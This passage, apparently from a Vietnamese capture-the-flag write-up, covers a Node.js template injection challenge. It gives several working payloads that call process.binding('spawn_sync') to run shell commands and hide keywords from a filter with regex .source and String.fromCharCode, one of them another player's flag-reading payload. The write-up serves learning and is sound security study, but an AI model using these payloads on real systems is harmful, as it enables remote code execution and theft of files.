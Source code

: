 ![image](https://user-images.githubusercontent.com/75429369/179696715-6eec623f-bce3-4a35-b548-f3c57ccdd2d5.png)

Đã trả về buffer nhưng có gì đấy sai sai, những con số Hex encode từ lệnh `ls` đã đi đâu??? Mình chưa có câu trả lời cho câu hỏi này nhưng tới đây mình suy đoán rằng cái Buffer đang hiện ra chỉ là buffer trỏ vào thằng object `process.binding`, nên ta sẽ thêm vào 1 object nữa để trỏ tới cái `spawn` của lệnh `bin/bash`

```javascript
process.binding('spawn_sync').spawn({file: '/bin/bash',args: ['bash','-c','ls'],stdio: [{type: 'pipe',readable: 1, writable: 1}, {type: 'pipe', writable: 1, readable: 1}]}).output
```

![image](https://user-images.githubusercontent.com/75429369/179698411-37a3ea21-c5e3-4f37-bd68-316335b0a7c1.png)

![image](https://user-images.githubusercontent.com/75429369/179698475-05d3ebfa-aaaa-4535-aff8-f7055f558dca.png)


Thứ ta mong đợi đã có, giờ thì chỉ cần chỉnh payload lại để né được filter để sử dụng lên web chính

```javascript
process.binding(/spawn_sync/.source).spawn({file: String.fromCharCode(9+9+9+9+9+2,98,99+2+2+2,98+2+2+2+2+2+2,9+9+9+9+9+2,98,99-2,98+8+9,98+2+2+2),args: [/bash/.source,/-c/.source,/ls/.source],stdio: [{type: /pipe/.source,readable: 1, writable: 1}, {type: /pipe/.source, writable: 1, readable: 1}]}).output
```

![image](https://user-images.githubusercontent.com/75429369/179701545-88bca9fc-facf-4953-b516-b5871df847c1.png)

Đang vui vì biết nó sẽ ra thôi nhưng không :) 

![image](https://user-images.githubusercontent.com/75429369/179701242-eb666458-09e8-4ec3-a993-4e11d3ad7b17.png)

Tới đây thì mình đã không giải được bài này...

Sau khi vào discord của giải thì mình tìm được payload của 1 player có cách tiếp cận khá giống mình như sau

```javascript
//@splitline#4881 

<%= process.binding(/spawn_sync/.source).spawn({ file: (sh=>/bin//sh).toString().slice(2+2), args: /sh,-c,cat F*/.source.split(/,/.source), stdio: [ { type: /pipe/.source, writable: true, readable: true }, { type: /pipe/.source, writable: true, readable: true } ] }).output %>
```

Thay vì dùng `bash` và dùng `1` thì anh/bạn này dùng `sh` và `true`, thử thay đổi những thứ này vào payload của mình thì đã chạy được

```javascript
<%=process.binding(/spawn_sync/.source).spawn({file: String.fromCharCode(9+9+9+9+9+2,98,99+2+2+2,98+2+2+2+2+2+2,9+9+9+9+9+2,98+8+9,98+2+2+2),args: [/sh/.source,/-c/.source,/ls/.source],stdio: [{type: /pipe/.source,readable: true, writable: true}, {type: /pipe/.source, writable: true, readable: true}]}).output%>
```

![image](https://user-images.githubusercontent.com/75429369/179706252-d51071dc-f5be-4325-9f9f-6f08c230056c.png)

Mình thắc mắc về vấn đề này nên đã đi hỏi tác giả, thì biết rằng `bash` không được install :(, còn cái boolean kia là do phiên bản node của mình đã cũ...

![image](https://user-images.githubusercontent.com/75429369/179706368-3f69a7ca-f009-470a-93da-f82ef928b8ad.png)

Dù không giải được nhưng bài này khá hay vì đã giúp mình biết thêm một cách tiếp cận khi gặp những dạng này.


_Hết rồi_

{% endraw %}
